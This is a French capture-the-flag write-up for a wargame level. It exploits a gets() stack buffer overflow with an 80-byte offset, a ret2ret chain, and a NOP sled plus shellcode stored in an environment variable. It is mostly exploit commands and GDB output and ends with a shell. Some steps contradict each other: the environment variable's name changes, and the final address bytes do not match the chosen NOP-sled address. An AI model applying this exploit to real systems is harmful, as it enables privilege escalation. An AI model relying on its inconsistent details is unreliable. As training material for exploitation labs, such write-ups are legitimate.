 # Level2

Première étape — tester le programme

```bash
$ ./level2
a
a
```

Le programme affiche l'entrée.

Démarrons-le dans GDB

```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   ebp
   0x08048540 <+1>:	mov    ebp,esp
   0x08048542 <+3>:	and    esp,0xfffffff0
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

`main` appelle une fonction `p`.

```gdb
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

On voit un appel à `gets()`. `gets()` est dangereux car il permet un débordement de tampon (buffer overflow).

---

### Trouver l'offset pour écraser EIP

On va utiliser un motif alphabétique :

```gdb
(gdb) r
Starting program: /home/user/level2/level2
AAAABBBBCCCC...zzz
AAAABBBBCCCC...zzz

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

Les 4 octets de l'adresse correspondent à l'hex de 'U'. On remplace ces 4 'U' par BBBB pour vérifier si l'offset est correct.

Test de vérification :

```bash
$ python -c 'print "a"*80+"BBBB"' > /tmp/payload
(gdb) r < /tmp/payload
Starting program: /home/user/level2/level2 < /tmp/payload
...BBBB...

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

L'offset pour écraser EIP est donc **80 octets**.

---

### Contournement du contrôle anti-stack

Le binaire vérifie si l'adresse écrasée pointe vers la pile et quitte si c'est le cas :

```c
if ((check & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", check);
    exit(1);
}
```

```
0x080484fb <+39>:	and    eax,0xb0000000
0x08048500 <+44>:	cmp    eax,0xb0000000
0x08048505 <+49>:	jne    0x8048527 <p+83>
```

Pour contourner ça, on place la charge utile (payload) dans une variable d'environnement. Puis on utilise la technique **ret2ret** :

* écraser EIP par l'adresse d'une instruction `ret` (pour dépiler et passer à l'adresse suivante),
* placer ensuite l'adresse de la zone NOPsled présente dans l'environnement.

Exemple de génération du payload d'environnement (NOPsled + shellcode) :

```bash
export payload=$(python -c 'print "\x90"*1000+"\x31\xc0\x31\xdb...\xcd\x80"')
```

---

### Récupérer l'adresse de la variable d'environnement dans GDB

Mettre un breakpoint avant le `ret` final :

```gdb
(gdb) b *main+12
Breakpoint 1 at 0x804854b
(gdb) r
Starting program: ./level2
...
Breakpoint 1, 0x0804854b in main ()
```

Afficher `environ` pour trouver l'adresse :

```gdb
(gdb) x/200xs environ
...
0xbffffb9a: "exploit=\220\220\220\220..."
```

Ici l'adresse est `0xbffffb9a`.

Examiner la mémoire autour pour choisir une adresse dans le NOPsled :

```gdb
(gdb) x/200xg 0xbffffb9a
...
0xbffffc7c:	0x9090909090909090	0x9090909090909090
0xbffffc8c:	0x9090909090909090	0x9090909090909090
0xbffffc9c:	0x9090909090909090	0x9090909090909090
0xbffffcac:	0x9090909090909090	0x9090909090909090
0xbffffcbc:	0x9090909090909090	0x9090909090909090
0xbffffccc:	0x9090909090909090	0x9090909090909090
0xbffffcdc:	0x9090909090909090	0x9090909090909090
0xbffffcec:	0x9090909090909090	0x9090909090909090
0xbffffcfc:	0x9090909090909090	0x9090909090909090
0xbffffd0c:	0x9090909090909090	0x9090909090909090
0xbffffd1c:	0x9090909090909090	0x9090909090909090
0xbffffd2c:	0x9090909090909090	0x9090909090909090
...
```

Choisissons `0xbffffcec` (un emplacement dans le NOPsled).

---

### Trouver une adresse `ret`

On peut réutiliser l'instruction `ret` de `main` :

```gdb
(gdb) disas main
...
0x0804854b <+12>:	ret
```

Adresse : `0x0804854b`.

---

### Construire l'exploit

Formation du payload : `80 bytes` + `adress_ret` + `adress_env`

Exécution:

```bash
$ python -c 'print "a"*80+"\x4b\x85\x04\x08"+"\xec\xff\xff\xbf"' |  ./level2
...
whoami	
level3
```

et OP OP OP, on obtient un shell.

###  sources

``NOPsled``: https://www.youtube.com/watch?v=1S0aBV-Waeo&t=818s

``shellcode``: http://shell-storm.org/shellcode/files/shellcode-219.html

``code op``: http://ref.x86asm.net/coder.html


